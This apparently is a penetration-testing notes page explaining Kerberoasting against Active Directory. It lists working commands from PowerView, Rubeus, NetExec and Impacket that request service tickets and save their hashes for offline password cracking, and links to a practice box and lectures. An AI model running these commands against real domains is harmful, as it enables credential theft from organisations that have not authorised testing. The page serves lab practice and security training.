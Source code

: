 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# Kerberoasting

## TL;DR

Kerberoasting is an attack to SPN accounts. SPNs are unique IDs that Kerberos uses to map a service instance to a service account in whose context, often privileged, the service is running. For obtaining the Service Ticket (ST) one of the following is needed:

1. An account's cleartext pass (or NTLM hash)
2. A shell in the context of a domain user account
3. `SYSTEM` level access on a domain-joined host

The ST (TGS-REP) (Figure 1) is encrypted with the service's account NTLM hash, so the plaintext password can potentially be cracked.

<figure><img src="../../../.gitbook/assets/kerberoasting_process.png" alt=""><figcaption><p>Figure 1: The Kerberos authentication process (image taken from <a href="https://www.optiv.com/insights/source-zero/blog/kerberos-domains-achilles-heel">here</a>).</p></figcaption></figure>

## Windows

{% tabs %}
{% tab title="PowerView" %}
```powershell
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```
{% endtab %}

{% tab title="Rubeus" %}
```powershell
.\Rubeus.exe kerberoast
```
{% endtab %}
{% endtabs %}

## Linux

{% tabs %}
{% tab title="NetExec" %}
```bash
nxc ldap 192.168.0.104 -u user -p pass --kerberoasting output.txt
```
{% endtab %}

{% tab title="Impacket" %}
```bash
GetUserSPNs.py -dc-ip 172.16.5.5 DOMAIN/user -request -outputfile spns.lst
```
{% endtab %}
{% endtabs %}

## Practice

{% tabs %}
{% tab title="Active (Easy)" %}
{% content-ref url="../../../boxes/easy/active.md" %}
[active.md](../../../boxes/easy/active.md)
{% endcontent-ref %}
{% endtab %}
{% endtabs %}

## Resources

{% tabs %}
{% tab title="Tim Medin's Lecture" %}
{% embed url="https://www.youtube.com/watch?v=Jaa2LmZaNeU" %}
{% endtab %}

{% tab title="Video Demo" %}
{% embed url="https://youtu.be/tRCvagjqx3c?t=158" %}
Video demonstration of Kerberoasting.
{% endembed %}
{% endtab %}

{% tab title="Kerberoasting in Detail" %}
{% embed url="https://adsecurity.org/?p=3458" %}
A great article detailing the Kerberoasting process.
{% endembed %}
{% endtab %}
{% endtabs %}

